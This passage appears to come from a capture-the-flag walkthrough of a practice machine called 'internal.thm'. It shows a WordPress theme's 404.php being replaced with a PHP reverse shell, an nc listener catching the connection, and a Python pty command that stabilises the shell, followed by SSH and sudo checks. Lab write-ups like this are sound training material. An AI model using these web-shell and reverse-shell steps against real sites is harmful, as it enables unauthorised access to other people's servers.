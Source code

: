 | ![Wordpress login succeed](/_static/images/Screenshot from 2022-10-03 02-30-05.png) |
|:--:|
| Log into WordPress as the admin user. |

Copy and adapt the Laudanum PHP Reverse Shell found in `/usr/share/laudanum/php/php-reverse-shell.php` or the 
[PentestMonkey php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

| ![Wordpress login succeed](/_static/images/Screenshot from 2022-10-03 02-33-24.png) |
|:--:|
| Change IP address and port |

1. Use "Appearance > Theme Editor > 404.php" and replace the PHP code with the PHP reverse shell.
2. Open a listener
3. Call the template in browser 
[http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php](http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php)

A shell as the `www-data` user is granted on the box.

```text
$ nc -lvn 1234           
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.239.250.
Ncat: Connection from 10.10.239.250:58570.
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:44:47 up  1:05,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Stabilise the shell:

    python -c "import pty;pty.spawn('/bin/bash')"

Explore to find an interesting file in the `/opt` directory. Read it.
The user flag is in aubreanna’s home folder. 

## Privilege escalation

MySQL credentials can often be found by inspecting the `wp-config.php` file. Alas.

Log in as the aubreanna user via SSH:

    ssh aubreanna@internal.thm

Check for sudo privileges:

    sudo -l
    Sorry, user aubreanna may not run sudo on internal.

There is a file in aubreanna’s home folder that tells us Jenkins is running on port 8080:
